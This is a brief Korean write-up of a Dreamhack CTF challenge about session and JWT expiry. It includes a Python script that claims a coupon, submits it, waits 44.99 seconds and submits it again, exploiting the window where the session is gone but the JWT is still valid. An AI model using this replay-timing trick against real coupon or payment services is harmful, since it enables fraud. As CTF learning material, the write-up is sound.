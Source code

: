 # 키워드
- 스크립트 작성
- 세션
- 논리오류

# 풀이
*처음에 jwt문제인줄 알았지만 아니였고, 레컨 문제인줄 알았지만 그것도 아니였음*

- 세션은 삭제되었지만 JWT는 만료가 안되는 때가 존재함을 이용함 
- 문제 풀이 당시 인터넷 속도 이슈 때문인지 남들보다 0.01초 차이 정도 발생했음
```python
import requests as req
import json
import time
import threading

domain = "http://host3.dreamhack.games:13654"


def get_session():
    url = domain + "/session"
    res = req.get(url=url)
    session_json = json.loads(res.text)
    session = session_json["session"]
    return session


def coupon_claim(session):
    url = domain + "/coupon/claim"
    headers = {"Authorization": session}
    res = req.get(url=url, headers=headers)
    coupon_json = json.loads(res.text)
    coupon = coupon_json["coupon"]
    return coupon


def coupon_submit(session, coupon):
    url = domain + "/coupon/submit"
    header = {"Authorization": session, "coupon": coupon}
    res = req.get(url=url, headers=header)
    print(res.text)


if __name__ == "__main__":
    session = get_session()
    print(session)
    coupon = coupon_claim(session)

    coupon_submit(session=session, coupon=coupon)

    time.sleep(44.99)

    coupon_submit(session=session, coupon=coupon)

```
